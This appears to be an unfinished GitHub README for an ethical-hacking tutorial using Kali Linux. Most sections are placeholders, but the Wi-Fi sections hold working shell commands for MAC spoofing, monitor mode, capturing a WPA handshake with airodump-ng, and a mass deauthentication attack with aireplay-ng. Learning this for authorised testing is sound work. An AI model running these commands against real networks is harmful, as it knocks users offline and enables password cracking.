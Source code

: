 # Ethical Hacking With [Kali Linux](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/) 

### Jubeen Shah  © 2019 

## Contents
1. [Introduction](#introduction)
2. [H/W + S/W Requirements](#requirements)
3. [Topics](#topics)
	1. [Network Security](#network-security)
		1. [Mac Address spoofing](#mac-address-spoofing)
		2. [Monitoring packets](#pre-connection-attacks)
	2. [Information Gathering](#information-gathering)


### Introduction
Add description

### Requirements 
Add description

### Topics
Add description


#### Network Security
Add description


##### Mac Address Spoofing
Add description


```shell
root@kali:~# ifconfig wlan0 down
root@kali:~# ifconfig wlan0 hw ether 00:11:22:33:44:55
root@kali:~# ifconfig wlan0 up
```

##### Pre-connection Attacks

Add description

```shell
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          
root@kali:~# ifconfig wlan0 down
root@kali:~# airmon-ng check kill

Killing these processes:

  PID Name
  508 dhclient
  547 wpa_supplicant

root@kali:~# iwconfig wlan0 mode monitor
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          
root@kali:~# ifconfig wlan0 up
root@kali:~# iwconfig
eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.412 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```

Add description for packet capturing using monitor mode

```shell

root@kali:~/Desktop/Ethical-Hacking# airodump-ng wlan0


BSSID  PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                  
 00:25:00:FF:94:73   -1        0        0    0  -1  -1                    <length:  0>                                                            
 84:D4:7E:43:1C:C2  -42       32        0    0   1  130  OPN              xx                                                                    
 84:D4:7E:43:1C:C1  -42       32        0    0   1  130  OPN              xx
 84:D4:7E:43:1C:C0  -42       31        0    0   1  130  WPA2 CCMP   MGT  xx                                                                 
wi-fi-ma-ca-dd-rs  -32       65        0    0   6  195  WPA2 CCMP   PSK xx
 C0:A0:BB:F2:7D:37  -86       46       60    0  10  130  WPA2 CCMP   PSK  xx 
```

Add description for packet capture using monitor mode for a particular wifi network and writing it down to a file. Then using wireshark to investigate the `.cap` file

```shell
root@kali:~/Desktop/Ethical-Hacking# airodump-ng  --bssid B0:4E:26:55:2B:F2 --channel 6 --write test wlan0


 CH  6 ][ Elapsed: 2 mins ][ 2019-01-17 07:59 ][ WPA handshake: B0:4E:26:55:2B:F2                                         
                                                                                                                                                  
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                  
 B0:4E:26:55:2B:F2  -34  96     1483     4832    7   6  195  WPA2 CCMP   PSK  ssid-name                                                         
                                                                                                                                                  
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                        
                                                                                                                                                  
wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -32    5e-24   19576     6803                                                                                wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -33    0e-11      0      214  J's Network                                                                   
wi-fi-ma-ca-dd-rs   ta-rg-et-ma-ca-ddr  -33    0e-11    844      222  J's Network  
 ```
 
 add description for performing a deauthentication attack on the connected clients. This would disconnect the client from the connected wifi.
 
 ```shell
 root@kali:~/Desktop/Ethical-Hacking# aireplay-ng --deauth 1000000 -a wi-fi-ma-ca-dd-rs -c ta-rg-et-ma-ca-ddr wlan0

 ```

##### Gaining Access Attacks

#### Information Gathering

Please visit this [README.md](./Topics/01-Information-Gathering/README.md) file for this section